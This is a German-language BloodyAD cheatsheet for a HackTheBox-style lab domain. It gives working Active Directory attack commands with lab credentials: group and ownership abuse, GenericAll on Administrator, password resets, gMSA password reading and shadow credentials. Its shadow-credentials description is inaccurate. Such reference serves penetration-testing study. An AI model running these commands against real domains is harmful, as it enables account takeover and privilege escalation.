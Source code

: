 
## 🩸 BloodyAD Cheatsheet

<br>

🧩 **Retrieve Domain Information**

Zeigt grundlegende Informationen zur Active Directory-Domäne wie Domain-Controller, Domänenfunktionsebene und andere Metadaten an.
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' get domain
```

<br>

🧩 **Retrieve User Information**

Fragt Active Directory-Objekt (z. B. einen Benutzer) ab und zeigt alle LDAP-Attribute des Zielobjekts.
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object administrator
```

<br>

🧩 **Get groupMembers**

Listet alle Mitglieder der angegebenen AD-Gruppe (z. B. DEVELOPERS) auf und zeigt deren Benutzernamen und Details.
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' get groupMembers DEVELOPERS
```

<br>

🧩 **Add User To Group**

Zeigt alle Active Directory-Objekte an, auf die der Nutzer levi.james Schreibrechte hat. Mit --detail werden zusätzlich ausführliche Informationen zu den Berechtigungen ausgegeben.
Fügt den Benutzer levi.james zur Gruppe DEVELOPERS im Active Directory hinzu. Dadurch erhält der Nutzer die Rechte und Mitgliedschaften der Zielgruppe.
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' get writable --detail
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```

<br>

🧩 **Add New User**

Legt einen neuen Benutzer im Active Directory an, um ihn in der Domäne zu registrieren.
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' add user <Benutzername>
```

<br>

🧩 **Get Computers**

Listet alle Computerobjekte innerhalb der Active Directory-Domäne auf.
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' get computers
```
<br>

🧩 **Change Password**

Setzt das Passwort des angegebenen Active Directory-Benutzers ($target_username) auf ein neues Passwort ($new_password). Damit kann der Nutzer das Passwort eines anderen AD-Accounts ändern.
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' set password $target_username $new_password
```

<br>

🧩 **Give User GenericAll Rights**

Gewährt dem Benutzer levi.james volle Zugriffsrechte („genericAll“) auf das AD-Objekt „Administrator“. Dadurch kann levi.james alle Eigenschaften und Berechtigungen des Administrator-Kontos ändern.
"Füge der Access Control List (ACL) des Administrator-Objekts hinzu, dass levi.james volle Rechte bekommt.“
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' add genericAll "CN=Administrator,CN=Users,DC=puppy,DC=htb" levi.james
```

<br>

🧩 **Write Owner**

Setzt den Besitzer des Active Directory-Objekts „DEVELOPERS“ auf den Benutzer levi.james. Dadurch erhält levi.james volle Kontrolle über dieses Objekt.
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' set owner "CN=DEVELOPERS,DC=puppy,DC=htb" levi.james
```

<br>

🧩 **Enable a Disabled Account**

Entfernt das ACCOUNTDISABLE-Flag im User-Account-Control (UAC) des Benutzers joerg.calvus, wodurch das Konto wieder aktiviert wird.
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' remove uac "CN=joerg.calvus,OU=Users,DC=puppy,DC=htb" -f ACCOUNTDISABLE
```

<br>

🧩 **Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag**

Fügt dem Benutzerkonto service-account das UAC-Flag TRUSTED_TO_AUTH_FOR_DELEGATION hinzu. Dadurch wird das Konto für die vertrauenswürdige Delegierung autorisiert.
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' add uac "CN=service-account,OU=Services,DC=puppy,DC=htb" -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

<br>

🧩 **ReadGMSAPassword**

Fragt das Active Directory-Objekt gmsa-web (Managed Service Account) ab und zeigt das Attribut msDS-ManagedPassword mit dem aktuellen verwalteten Passwort an.
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object "CN=gmsa-web,CN=Managed Service Accounts,DC=puppy,DC=htb" --attr msDS-ManagedPassword
```
<br>

🧩 **Modify UPN**
Fragt beim Active Directory-Benutzer joerg das Attribut userPrincipalName ab und zeigt dessen Wert an.
Ändert im Active Directory beim Benutzer joerg das Attribut userPrincipalName auf „joerg2@puppy.htb“. Damit wird der Anmeldename des Nutzers angepasst.
```zsh
bloodyAD --host $IP -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object "CN=joerg,OU=Users,DC=puppy,DC=htb" --attr userPrincipalName
bloodyAD --host $IP -d puppy.htb -u admin -p 'Passw0rd!' set object "CN=joerg,OU=Users,DC=puppy,DC=htb" userPrincipalName -v "joerg2@puppy.htb"
```

<br>

🧩 **Shadow Credentials**

Fügt dem AD-Benutzer joerg sogenannte Shadow Credentials hinzu, die alternative Anmeldedaten (z. B. für Azure AD Pass-Through Authentication) ermöglichen.
```zsh
bloodyAD --host $IP -d puppy.htb -u admin -p 'Passw0rd!' add shadowCredentials "CN=joerg,OU=Users,DC=puppy,DC=htb"
```


